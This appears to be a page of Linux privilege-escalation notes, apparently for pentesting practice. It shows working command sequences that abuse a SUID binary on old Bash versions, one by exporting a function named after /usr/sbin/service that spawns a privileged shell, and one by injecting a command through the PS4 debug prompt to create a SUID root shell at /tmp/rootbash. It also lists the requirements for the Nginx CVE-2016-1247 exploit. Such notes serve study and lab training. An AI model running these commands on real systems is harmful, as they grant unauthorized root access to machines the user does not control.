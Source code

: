 #### Bash < 4.2-048
In **Bash versions <4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

The /usr/sbin/service function is defined, with the command /bin/bash -p being executed within it. The /usr/sbin/service function is then exported, making it available for use in other scripts.

```
strings /usr/local/bin/suid-env2

/bin/bash --version

function <binary path as file name> { /bin/bash -p; }
function /usr/sbin/service { /bin/bash -p; }
export -f <file>
export -f /usr/sbin/service

/usr/local/bin/suid-env2
```

#### Bash < 4.4

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

```

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```

#### Symlinks Nginx Exploit (CVE-2016-1247)

**Nginx Exploit (CVE-2016-1247)**

Use linux exploit suggester or:

```
dpkg -l
dpkg -l | grep nginx

```

Notice that the installed nginx version is below 1.6.2-5+deb8u3.

**Requirements:**

- You need to be www-data
- Have write access to /var/log/nginx
- SUID bit set in nginx
